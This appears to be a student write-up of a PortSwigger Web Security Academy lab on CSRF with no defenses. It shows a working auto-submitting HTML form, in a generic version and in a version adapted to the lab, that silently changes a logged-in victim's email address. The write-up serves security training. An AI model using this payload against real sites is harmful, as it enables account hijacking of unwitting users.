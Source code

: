 ### CSRF vulnerability with no defenses : APPRENTICE

---

Given credentials `wiener:peter`, we need to create a CSRF attack to change the email of the victim user.

![](./screenshots/lab1-1.png)

We see this page.

![](./screenshots/lab1-2.png)

We know that the update email is vulnerable to CSRF.
- Capturing a `POST` request via BURPSUITE PROXY HTTP history while updating the email address.

![](./screenshots/lab1-3.png)

We see that we can guess all the parameters, and that the only method to track users is via the `session` cookie.

We can construct an HTML page that performs the change email functionality while logged in to the wiener account.
```HTMl
<html> 
	<body> 
		<form action="https://vulnerable-website.com/email/change" method="POST"> 
			<input type="hidden" name="email" value="pwned@evil-user.net" /> 
		</form> 
		<script> document.forms[0].submit(); </script> 
	</body> 
</html>
```
- This is the HTML code we will use, which we will change to suite our current attack.

```HTML
<html> 
	<body> 
		<form action="https://0ac000bb03ec8b0e8221bfad001a00ec.web-security-academy.net/my-account/change-email" method="POST"> 
			<input type="hidden" name="email" value="mins1@mins.com" /> 
		</form> 
		<script> document.forms[0].submit(); </script> 
	</body> 
</html>
```
- We set the URL to the path found in the `POST` request, and the `method` is `POST`.
- We set the value of the email to the one we want it to change to.

> To place this exploit, or send it to the user, we place it in the exploit server.

![](./screenshots/lab1-4.png)

Once we deliver exploit to victim and go to the my-account page, we see that the email address was changed to `mins!@mins.com`.
- The functionality to change the email address was done without the user intending to, by being phished into clicking onto a link that leads to this exploit.

This exploit once clicked, automatically submits using the script given, `<script> document.forms[0].submit(); </script>`, and changed the email address to the one we supply.
- This works if the user is logged in to the same browser this link was opened in, due to the session cookie.

---

